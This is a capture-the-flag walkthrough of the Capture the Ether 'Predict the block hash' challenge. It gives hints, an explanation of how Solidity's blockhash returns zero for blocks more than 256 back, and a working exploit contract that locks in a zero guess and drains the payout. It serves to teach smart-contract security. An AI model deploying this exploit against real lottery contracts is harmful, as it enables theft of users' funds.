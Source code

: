 ```yaml
---
description: >-
  In Capture the Ether's "Predict the block hash", we see an interesting
  business logic flaw that depends on the limitations of a Solidity global
  variable.
---
```


# Predict the block hash

This [challenge](https://capturetheether.com/challenges/lotteries/predict-the-block-hash/) involves a bit of outside-the-box thinking. We're asked to predict the value of a future block hash, an unknowable value at the time of our guess, and the implementation of the guess/settle logic is (_almost_) foolproof.

### Hints

<details>

<summary>Hint One</summary>

What happens when we try to get the block hash for a non-existent block number in our Solidity contract?

</details>

<details>

<summary>Hint Two</summary>

The solution depends in part on how many block hashes the `blockhash` function can be used to access. What might this limitation mean in light of the previous hint?

</details>

### Full Walkthrough

If the code that handles locking in guesses and settling the transaction truly worked the way it appears at first glance, this challenge would not be possible. The secret to this exploit lies in the fact that Solidity's `blockhash` function will return a value for a non-existent block number, rather than throwing an error. If we call `blockhash` for a block number, for example, in the future, we get `0x0000000000000000000000000000000000000000000000000000000000000000`.&#x20;

Another interesting limitation of the `blockhash` function is that it can only access the last 256 blocks. If it is called for a block number prior to this, it returns the same `0x00...0` response as above.&#x20;

We can exploit this behavior by locking in a guess of `0x00...0` then waiting for enough blocks to settle that when the contract attempts to get the blockhash of `settlementBlockNumber`, which is locked in at the time we make our guess, it will also return `0x00...0`. As Ethereum has an average block time of 15 seconds, we need to wait at least 64 minutes before we can be reasonably sure our trick will work.

### Scripted Solution

```solidity
pragma solidity 0.8.7;

interface IPredictTheBlockHashChallenge {
    function lockInGuess(bytes32 hash) external payable;

    function settle() external;

    function isComplete() external view returns (bool);
}

contract PredictTheBlockHashChallengeExploit {
    IPredictTheBlockHashChallenge private _challengeContract;

    /**
     * Constructor sets `PredictTheBlockHashChallenge` contract.
     */
    constructor(address challengeContractAddress) {
        _challengeContract = IPredictTheBlockHashChallenge(
            challengeContractAddress
        );
    }

    /**
     * Locks in a guess of '0x00...0'.
     */
    function guess() external payable {
        // 0x0000000000000000000000000000000000000000000000000000000000000000
        bytes32 guess = blockhash(block.number - 257);

        // Lock in guess
        _challengeContract.lockInGuess{value: msg.value}(guess);
    }

    /**
     * Settles guess. Call at least 64 minutes after locking in guess.
     */
    function settle() external {
        // Settle
        _challengeContract.settle();

        // Ensure guess was correct
        require(
            _challengeContract.isComplete(),
            "PredictTheBlockHashChallengeExploit: Challenge not complete"
        );

        // Return contract balance to `msg.sender`
        payable(msg.sender).transfer(address(this).balance);
    }

    receive() external payable {}
}
```

